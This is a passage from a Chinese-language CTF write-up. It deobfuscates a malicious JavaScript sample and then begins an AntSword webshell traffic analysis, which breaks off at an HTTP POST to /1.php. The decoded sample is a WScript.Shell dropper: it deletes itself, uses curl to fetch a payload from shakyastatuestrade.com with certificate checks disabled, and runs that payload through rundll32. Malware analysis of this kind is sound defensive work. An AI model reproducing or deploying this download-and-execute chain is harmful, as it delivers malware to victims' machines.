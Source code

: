 ```shell
/* Aperiam aliquam nemo molestias exercitationem. */ /* Placeat ratione nostrum cumque tempore. */ /* Consequatur consectetur sed rerum aperiam quia. */ /* Libero rem et error sit sit ut. */ x808919187+='t';
/* Et laudantium mollitia itaque. */ /* Suscipit nostrum sequi soluta est. */ /* Nobis voluptatem labore aut nihil. */ x808919187+='r';
/* Ipsum sit neque debitis sunt. */ /* Et eum doloribus eos cupiditate deserunt. */ x808919187+='u';
/* Quia vitae omnis molestiae. */ /* Eaque nihil aut neque saepe iste minus et. */ /* Quia eveniet sit iusto molestias quidem non. */ x808919187+='e';
/* Ex est saepe illo animi libero aut quos magnam. */ /* Sequi est at ex sed. */ /* Provident sed est maiores dolor odio nostrum. */ x449195806 = '';
/* Porro minima ab reprehenderit non eaque dolore. */ /* Ut in porro molestiae non qui. */ /* Sed quis qui ipsum repellat. */ x449195806+='f';
/* Non autem iste aut aut et sequi explicabo. */ /* Quisquam qui eaque eligendi temporibus quas. */ /* Voluptatem facilis deserunt et et odio. */ /* Accusantium accusantium et neque molestias. */ x449195806+='a';
/* Aliquam qui quisquam quasi rem fugit. */ /* Doloribus saepe repudiandae vel et. */ /* Voluptatem amet adipisci aut inventore minus. */ /* Sed cum sunt dolor occaecati similique. */ /* Non doloremque culpa dolores illo. */ x449195806+='l';
```

> $ head Nuj.js 

去掉注释提取出`js`代码

```shell
truefalse.match(  )( new ActiveXObject( WScript.Shell ) ).Run( \\, ,  )undefinedcmd.exe /c del WScript.ScriptFullNamecmd.exe /c echo|set /p=cu > %temp%dolorem.p.batcmd.exe /c echo rl  --output %temp%dolorem.p --ssl-no-revoke --insecure --location >> %temp%dolorem.p.batcmd.exe /c %temp%dolorem.p.bat%temp%dolorem.p.batcmd.exe /c ren %temp%dolorem.p rundll32 %temp% Entercmd.exe /c %temp%https://shakyastatuestrade.com/IhA6F/616231603qui.q
```

> $ sed -r 's#/\*.*\*/##g' Nuj.js|grep "'.'" -o|awk -F '' '{print $2}'|paste -sd ''

> **flag{shakyastatuestrade.com}**



# 流量特征分析-蚁剑流量分析

![image-20240609201543675](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240609201543675.png)

搜索`http`流找到后门,跟踪发现蚁剑流量

`decode`

```http
POST /1.php HTTP/1.1
Host: 192.168.200.54
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; zh-cn) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27
Content-Type: application/x-www-form-urlencoded
Content-Length: 4861
Connection: close

```